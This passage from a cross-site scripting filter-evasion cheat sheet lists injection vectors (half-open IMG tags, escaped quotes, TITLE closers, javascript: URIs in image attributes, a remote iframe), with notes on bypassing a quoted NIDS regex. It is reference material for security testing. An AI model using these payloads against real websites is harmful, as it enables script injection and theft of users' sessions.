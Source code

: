
				Half open HTML/JavaScript XSS vector

				Unlike Firefox the IE rendering engine doesn’t add extra data to your page, but it does allow the javascript: directive in images. This is useful as a vector because it doesn’t require a close angle bracket. This assumes there is any HTML tag below where you are injecting this cross site scripting vector. Even though there is no close “>” tag the tags below it will close it. A note: this does mess up the HTML, depending on what HTML is beneath it. It gets around the following NIDS regex: /((\%3D)|(=))[^\n]*((\%3C)|<)[^\n]+((\%3E)|>)/ because it doesn’t require the end “>”. As a side note, this was also affective against a real world XSS filter I came across using an open ended <IFRAME tag instead of an <IMG tag:
				1
				<IMG SRC="javascript:alert('XSS')"


				Double open angle brackets

				Using an open angle bracket at the end of the vector instead of a close angle bracket causes different behavior in Netscape Gecko rendering. Without it, Firefox will work but Netscape won’t:
				1
				<iframe src=http://ha.ckers.org/scriptlet.html <


				Escaping JavaScript escapes

				When the application is written to output some user information inside of a JavaScript like the following: <SCRIPT>var a=”$ENV{QUERY_STRING}”;</SCRIPT> and you want to inject your own JavaScript into it but the server side application escapes certain quotes you can circumvent that by escaping their escape character. When this is gets injected it will read <SCRIPT>var a=”\\”;alert(‘XSS’);//”;</SCRIPT> which ends up un-escaping the double quote and causing the Cross Site Scripting vector to fire. The XSS locator uses this method.:
				1
				\";alert('XSS');//


				End title tag

				This is a simple XSS vector that closes <TITLE> tags, which can encapsulate the malicious cross site scripting attack:
				1
				</TITLE><SCRIPT>alert("XSS");</SCRIPT>


				INPUT image
				1
				<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">


				BODY image
				1
				<BODY BACKGROUND="javascript:alert('XSS')">


				IMG Dynsrc
				1
				<IMG DYNSRC="javascript:alert('XSS')">


				IMG lowsrc
				1
				<IMG LOWSRC="javascript:alert('XSS')">


				List-style-image

				Fairly esoteric issue dealing with embedding images for bulleted lists. This will only work in the IE rendering engine because of the JavaScript directive. Not a particularly useful cross site scripting vector:
				1
				<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
